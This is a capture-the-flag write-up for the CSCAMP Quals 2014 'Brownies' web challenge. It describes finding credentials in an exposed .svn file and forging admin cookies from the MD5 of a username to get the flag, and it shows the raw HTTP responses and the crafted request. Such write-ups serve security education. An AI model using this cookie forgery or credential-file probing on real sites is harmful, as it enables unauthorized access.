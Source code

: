 ```yaml
---
layout: post
title: "Brownies"
date: 2014-11-24
ctf: CSCAMP Quals 2014
author: Abstract
---
```


The challenge was to get admin access to a website running at
http://178.63.58.69:8083. This URL provided a simple log on page,
which asked for a username and password.

 The challenge description came with the hint: *think of default
files when using source code management systems*, so after some
experimenting we found a file at http://178.63.58.69:8083/.svn with
the contents

	user: ping
	pass: pong
	
	admin: john

This tells us that the password for the "ping" account and that the admin
account is called "john". Logging on to the http://178.63.58.69:8083
site with the ping account details the server replies with:

	HTTP/1.1 200 OK
	Date: Sat, 22 Nov 2014 19:24:23 GMT
	Server: Apache/2.4.6 (CentOS) PHP/5.4.16
	X-Powered-By: PHP/5.4.16
	Set-Cookie: type=user
	Set-Cookie: flag=df911f0151f9ef021d410b4be5060972
	Set-Cookie: name=ping
	Content-Length: 53
	Keep-Alive: timeout=5, max=100
	Connection: Keep-Alive
	Content-Type: text/html; charset=UTF-8

	<h4> Welcome: ping</h4><a href='index.php'>Logout</a>

The interesting part here is the cookie, this seems to be the user
name, the access level and an authentication token (no, it's not the
flag, although we did try submitting it). Deciding it might be a hash
we tried cracking it (typing it into Google), we found that it was the
MD5 hash of "ping". So we trying requesting the login page with the
account john, type admin, and the "flag" set to the MD5 hash of "john", by
sending the message:

	GET /login.php HTTP/1.1
	Host: 178.63.58.69:8083
	User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.9; rv:27.0) Gecko/20100101 Firefox/27.0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate
	DNT: 1
	Cookie: type=admin; flag=527bd5b5d689e2c32ae974c6229ff785; name=john
	Connection: keep-alive

and got the reply:

	Hi faked admin :)
	
	Flag: 'a012c434d1ec6db911fda4884de14fdd'

which was the true flag and submitting it got us the 350 points.

We used the Burp proxy to intercept and edit the HTTP
traffic. While not that complex their were a few dead ends, the login
page seems susceptible to SQL injection attacks, and the log in request
had a hidden field: file="auth.txt", both of which we spent a lot of
time working on before finding the correct solution, additionally, the last message had to be a GET rather than a POST.